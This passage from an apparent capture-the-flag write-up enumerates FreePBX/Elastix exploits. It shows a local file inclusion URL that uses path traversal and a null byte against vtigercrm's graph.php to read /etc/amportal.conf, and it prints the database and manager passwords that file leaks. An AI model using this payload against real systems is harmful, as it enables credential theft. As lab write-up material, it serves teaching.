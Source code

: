 ```bash
FreePBX 2.5.2 - '/admin/config.php?tech' Cross-Site Sc | 33442
FreePBX 2.5.2 - Zap Channel Addition Description Param | 33443
FreePBX 2.5.x - Information Disclosure                 | 11187
FreePBX 2.5.x < 2.6.0 - Persistent Cross-Site Scriptin | 11184
FreePBX 2.8.0 - Recordings Interface Allows Remote Cod | 15098
FreePBX 2.9.0/2.10.0 - 'callmenum' Remote Code Executi | 18659
FreePBX 2.9.0/2.10.0 - Multiple Vulnerabilities        | 18649
FreePBX < 13.0.188 - Remote Command Execution (Metaspl | 40434
Freepbx < 2.11.1.5 - Remote Code Execution             | 41005
------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```



## Version Information

### FreePBX 2.8.1.4 

This seems to be dated around 2010



![image-20210414174914422](/home/boolean/.config/Typora/typora-user-images/image-20210414174914422.png)



## Method 1 - LFI

Reading through the directories of Elastix, such as help you will find that the software is quite old, around 2012 era. 

Using the options returned from searchsploit, we take a look at exploit 37637, and it indicates its exploitable using the following url - /vtigercrm/graph.php?current_language=../../../../../../../../<file path>%00&module=Accounts&action

The exploit suggests /etc/amportal.conf, which does disclose some passwords 

```bash
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

#### /etc/passwd

(no login users removed from the list)
